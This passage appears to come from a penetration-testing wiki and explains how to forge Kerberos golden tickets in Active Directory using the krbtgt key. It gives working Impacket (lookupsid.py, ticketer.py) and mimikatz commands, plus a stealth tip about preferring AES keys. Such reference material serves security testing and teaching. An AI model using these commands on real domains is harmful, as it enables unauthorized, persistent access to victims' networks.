 {% hint style="info" %}
When forging tickets, before November 2021 updates, the user-id and groups-ids were useful but the username supplied was mostly useless. As of Nov. 2021 updates, if the username supplied doesn't exist in Active Directory, the ticket gets rejected. This also applies to Silver Tickets.
{% endhint %}

### Golden tickets

In order to craft a golden ticket, testers need to find the `krbtgt`'s RC4 key (i.e. NT hash) or AES key (128 or 256 bits). In most cases, this can only be achieved with domain admin privileges through a [DCSync attack](../credentials/dumping/dcsync.md). Because of this, golden tickets only allow lateral movement and not privilege escalation.

{% hint style="info" %}
Microsoft now uses AES 256 bits by default. Using this encryption algorithm (instead of giving the NThash) will be stealthier.
{% endhint %}

{% tabs %}
{% tab title="UNIX-like" %}
There are [Impacket](https://github.com/SecureAuthCorp/impacket) scripts for each step of a golden ticket creation : retrieving the `krbtgt`, retrieving the domain SID, creating the golden ticket.

```bash
# Find the domain SID
lookupsid.py -hashes 'LMhash:NThash' 'DOMAIN/DomainUser@DomainController' 0

# Create the golden ticket (with an RC4 key, i.e. NT hash)
ticketer.py -nthash $krbtgtNThash -domain-sid $domainSID -domain $DOMAIN randomuser

# Create the golden ticket (with an AES 128/256bits key)
ticketer.py -aesKey $krbtgtAESkey -domain-sid $domainSID -domain $DOMAIN randomuser

# Create the golden ticket (with an RC4 key, i.e. NT hash) with custom user/groups ids
ticketer.py -nthash $krbtgtNThash -domain-sid $domainSID -domain $DOMAIN -user-id $USERID -groups $GROUPID1,$GROUPID2,... randomuser
```
{% endtab %}

{% tab title="Windows" %}
On Windows, [mimikatz](https://github.com/gentilkiwi/mimikatz) (C) can be used for this attack.

```bash
# with an NT hash
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /rc4:$krbtgt_NThash /user:randomuser /ptt

# with an AES 128 key
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /aes128:$krbtgt_aes128_key /user:randomuser /ptt

# with an AES 256 key
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /aes256:$krbtgt_aes256_key /user:randomuser /ptt
```

For both mimikatz and Rubeus, the `/ptt` flag is used to automatically [inject the ticket](ptt.md#injecting-the-ticket).
{% endtab %}
{% endtabs %}
